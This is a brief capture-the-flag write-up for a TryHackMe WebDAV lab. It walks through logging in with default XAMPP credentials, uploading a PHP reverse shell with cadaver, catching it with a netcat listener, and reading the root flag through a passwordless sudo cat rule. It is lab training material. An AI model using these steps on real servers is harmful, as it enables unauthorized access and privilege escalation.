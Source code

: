 https://tryhackme.com/room/bsidesgtdav


ip = `10.10.57.146`


# Open ports

80


# Findings

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.18 (Ubuntu)

 

/webdav found by gobuster

default credentials https://xforeveryman.blogspot.com/2012/01/helper-webdav-xampp-173-default.html 

wampp/xampp

there is a file called password.dav -> wampp:$apr1$Wm2VTkFL$PVNRQv7kzqXQIHe14qKA91

got into the machine using cadaver 

using this reverse shell https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php

```
┌──(kali㉿kali)-[~]
└─$ cadaver http://10.10.57.146/webdav
Authentication required for webdav on server `10.10.57.146':
Username: wampp
Password: 
dav:/webdav/> 
dav:/webdav/> 
dav:/webdav/> ls
Listing collection `/webdav/': succeeded.
        passwd.dav                            44  Aug 25  2019
dav:/webdav/> 
?           checkin     cp          edit        history     lock        mkcol       mv          propset     rmcol       uncheckout  
about       checkout    delete      exit        label       logout      mkdir       open        put         search      unlock      
bye         chexec      describe    get         lcd         lpwd        more        propdel     pwd         set         unset       
cat         close       discover    h           less        ls          move        propget     quit        showlocks   version     
cd          copy        echo        help        lls         mget        mput        propnames   rm          steal       
dav:/webdav/> put php_reverse_shell.php 
Uploading php_reverse_shell.php to `/webdav/php_reverse_shell.php':
Progress: [=============================>] 100.0% of 5490 bytes succeeded.
dav:/webdav/> 
```

nc -nlvp 1234 -> got shell

cd /home/merlin -> there is the user.txt flag


Now, privilage escalation

```
$ sudo -l
Matching Defaults entries for www-data on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ubuntu:
    (ALL) NOPASSWD: /bin/cat```

I can run sudo cat without password - lets just cat /root/root.txt to get the final flag

